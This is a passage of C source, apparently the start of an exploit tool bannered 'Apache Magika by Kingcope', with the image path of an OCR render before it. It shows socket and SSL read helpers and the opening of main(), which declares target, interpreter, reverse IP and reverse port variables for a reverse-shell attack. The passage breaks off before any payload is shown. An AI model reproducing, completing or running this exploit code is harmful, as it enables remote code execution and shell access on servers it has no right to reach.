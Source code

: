     >     
    >       for(;;)
    >       {
    >        if (!rc)
    >         rc = calloc(1024, sizeof (char) + 1);
    >        else
    >         if (count2 % 1024 == 0) {
    >          rc = realloc(rc, (count2 + 1) * 1024 * sizeof (char) + 1);
    >         }
    >         received = SSL_read(c->handle, &ch, 1);
    >         if (received == 1) {
    >          rc[count++] = ch;
    >          count2++;
    >          if (count2 > 1024*5)
    >           break;
    >         }
    >         else
    >          break;
    >        }
    >       return rc;
    >     }
    >     
    >     char *read_(int sockfd)
    >     {
    >       char *rc = NULL;
    >       int received, count = 0, count2=0;
    >       char ch;
    >     
    >       for(;;)
    >       {
    >        if (!rc)
    >         rc = calloc(1024, sizeof (char) + 1);
    >        else
    >         if (count2 % 1024 == 0) {
    >          rc = realloc(rc, (count2 + 1) * 1024 * sizeof (char) + 1);
    >         }
    >         received = read(sockfd, &ch, 1);
    >         if (received == 1) {
    >          rc[count++] = ch;
    >          count2++;
    >          if (count2 > 1024*5)
    >           break;
    >         }
    >         else
    >          break;
    >        }
    >       return rc;
    >     }
    >     
    >     void main(int argc, char *argv[])
    >     {
    >       char *target, *protocol, *targetip, *writestr, *tmpstr, *readbuf=NULL,
    >        *interpreter, *reverseip, *reverseportstr, *forceinterpreter=NULL;
    >       char httpsflag=0;
    >       unsigned short port=0, reverseport=0;
    >       struct sockaddr_in *server;
    >       int sockfd;
    >       unsigned int writesize, tmpsize;
    >       unsigned int i;
    >       connection *sslconnection;
    >       printf("-== Apache Magika by Kingcope ==-\n");
    >       for(;;)
    >       {
    >          int c;